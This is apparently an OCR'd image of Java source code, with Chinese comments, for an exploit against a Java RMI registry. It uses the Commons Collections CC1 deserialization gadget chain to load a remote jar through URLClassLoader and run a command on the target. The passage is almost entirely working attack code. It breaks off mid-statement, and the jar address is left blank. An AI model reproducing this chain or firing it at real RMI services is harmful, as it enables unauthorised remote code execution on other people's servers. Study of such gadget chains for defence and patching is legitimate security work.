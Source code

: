 ```java
// 这里是通过cc1打的register，并不适用所有版本和攻击对象
// 代码的重点在于通过`Transformer[] transformers = new Transformer[]`执行的任意代码，这里是利用它加载了一个远程jar包，并加载其中的类，利用不同的链打client、server，是类似的思路
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

import java.util.HashMap;
import java.util.Map;


public class EchoClient {
    public static Constructor<?> getFirstCtor(final String name)
            throws Exception {
        final Constructor<?> ctor = Class.forName(name).getDeclaredConstructors()[0];
        ctor.setAccessible(true);

        return ctor;
    }

    public static void main(String[] args) throws Exception {
        String ip = "127.0.0.1"; //注册中心ip
        int port = 1099; //注册中心端口
        String remotejar = ""; // 加载jar包的地址
        String command = "whoami";

        try {
            final Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(java.net.URLClassLoader.class),
                    new InvokerTransformer("getConstructor",
                            new Class[] { Class[].class },
                            new Object[] { new Class[] { java.net.URL[].class } }),
                    new InvokerTransformer("newInstance",
                            new Class[] { Object[].class },
                            new Object[] {
                                    new Object[] {
                                            new java.net.URL[] { new java.net.URL(remotejar) }
                                    }
                            }),
                    new InvokerTransformer("loadClass",
                            new Class[] { String.class },
                            new Object[] { "org.example.echo.ErrorBaseExec" }), // 必须写完整的类名
                    new InvokerTransformer("getMethod",
                            new Class[] { String.class, Class[].class },
                            new Object[] { "do_exec", new Class[] { String.class } }),
                    new InvokerTransformer("invoke",
                            new Class[] { Object.class, Object[].class },
                            new Object[] { null, new String[] { command } })
            };
            Transformer transformedChain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            innerMap.put("value", "value");

            Map outerMap = TransformedMap.decorate(innerMap, null,
```